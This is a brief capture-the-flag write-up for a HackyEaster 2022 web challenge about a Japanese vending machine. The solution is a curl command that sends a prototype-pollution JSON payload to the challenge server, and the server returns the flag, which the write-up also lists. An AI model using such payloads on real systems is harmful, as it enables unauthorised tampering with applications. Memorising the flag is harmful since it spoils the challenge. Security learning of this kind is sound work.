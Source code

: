 ```yaml
---
layout: writeup

title: 自動販売機
level: 6         # optional, for events that use levels (like HackyEaster)
difficulty: medium    # easy/medium/hard etc, if applicable
points: 200        # if used
categories: [web]  # e.g. crypto, pwn, reversing
tags: [prototype pollution]        # anything notable about challenge/solution, vuln/tools/etc

flag: he2022{p0llut10n_41nt_g00d}

---
```


## Challenge

I like these Japanese vending machines! ๑(◕‿◕)๑

If I could just get a 🚩...

http://46.101.107.117:2210


## Solution

Based on some chatter in discord, we used the attack described here: [https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

```bash
$ curl --silent 'http://46.101.107.117:2210/order' -X POST -H 'Content-Type: application/json' --data-raw '{"__proto__": {"amount": 6, "item": "🚩"}}'
お楽しみください 🚩: he2022{p0llut10n_41nt_g00d}%
```

